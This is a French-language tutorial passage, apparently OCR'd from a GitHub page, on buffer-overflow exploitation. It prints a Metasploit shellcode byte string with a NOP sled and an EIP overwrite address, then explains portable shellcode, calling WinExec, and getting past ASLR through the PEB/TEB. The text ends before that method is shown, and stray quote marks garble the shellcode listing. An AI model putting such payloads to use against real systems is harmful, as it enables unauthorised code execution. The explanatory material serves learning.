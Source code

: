 [img:./test/img/sa.png] 

\sub####Shellcode de Metasploit

\shell
"\x33\xc9\x83\xe9\xdd\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\x6b"
"\x27\x3d\x46\x83\xeb\xfc\xe2\xf4\x97\xcf\x79\x46"\x6b\x27\xb6\x03"
"\x57\xac\x41\x43"\x13\x26\xd2\xcd\x24\x3f\xb6\x19"\x4b\x26\xd6\x0f"
"\xe0\x13\xb6\x47\x85\x16\xfd\xdf\xc7\xa3\xfd\x32\x6c\xe6\xf7\x4b"
"\x6a\xe5\xd6\xb2\x50\x73\x19\x42\x1e\xc2\xb6\x19\x4f\x26\xd6\x20"
"\xe0\x2b\x76\xcd\x34\x3b\x3c\xad\xe0\x3b\xb6\x47\x80\xae\x61\x62"
"\x6f\xe4\x0c\x86"\x0f\xac\x7d\x76\xee\xe7\x45\x4a\xe0\x67\x31\xcd"
"\x1b\x3b\x90\xcd\x03\x2f\xd6\x4f\xe0\xa7\x8d\x46\x6b\x27\xb6\x2e"
"\x57\x78\x0c\xb0\x0b\x71\xb4\xbe\xe8\xe7\x46\x16\x03\xd7\xb7\x42"
"\x34\x4f\xa5\xb8\xe1\x29\x6a\xb9\x8c\x44\x5c\x2a\x08\x09\x58\x3e"
"\x0e\x27\x3d\x46"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\xfb\x22\x00"; -> EIP 
\\

\sub####l'injection en cours éxécution *(Metasploit)* : 
[img:./test/img/exec.png]( auto ) 

###Les Shellcodes

Les **shellcodes** sont une suite d'instruition ou opcode qui représente du language machine fait pour la machine. Alors il ya deux écoles soit vous allez farfouiller les sites de sécuriter informatique ou bien vous avez les connaissances requise en assembleur est en **API** de l'os en question, pour vous lancer à corp perdu dans la conception d'un **shellcode**, dans cette example le shellcode n'est pas ouf *it's myself* il est très vieux, j'ai eu t'autres loisirs que l'assembleur un moment de ma vie :). Mais il existe de type de shellcode

	* Portatif
	* Non portatif

L'un peut s'exporter au delà de son environement, l'autre non il est cantonné à sont environement, pourquoi ça ?

Etant donné que notre **shellcode** n'emporte pas avec lui beaucoup de bagage pour faire des exploits, il va tous simplement falloir solliciter **API** de l'os en question, car c'est pas avec 172 bytes que vous allez pouvoir développer en toute quiétude. Il va juste nous servir de tremplin ou porte dérobé pour des utilisation futurs. Dans la grande majorité des examples les **shellcode** esseye de lancer la calculatrice à l'aide de la function **winexec** de **API** Windows qui se trouve dans la librairie (DLL) **kernel32.dll**, cette librairie est loader par *default* dans chaque application. C'est ici que mainteant va ce différencier entre le poratif et le non portatif.

\sub###Comment accèder à cette function 

Alors dans les 80's, les **os** mappé en mémoire leurs librairies toujours au même emplacement aux même addresses mémoire, ainsi dans mon **Windows NT** ^^, la function **winExec* était à la même addresse que sur ton **Windows NT** chez toi. Donc lors de la créarion du shellcode pour appeler **winExec** il suffiser d'indiquer sont addresse mémoire, le shellcode été fonctionnelle autant chez moi que chez toi.

Mais pour compliquer cette tâche les ingénieurs ont décidé de randomiser tous cela, et de mapper ces librairies en mémoire à des addresses aléatoire à chaque redémarrage de **Roger**, ce qui rend la tâche bien plus hardue que dans les eighteen's. Pour windows une méthode existe qui consiste à remonter la Structure du **PEB/TEB** via le segment **FS**. Bien évidamment pour ma part je me suis pas trop foulé la pomme j'ai opté pour cette méthode :
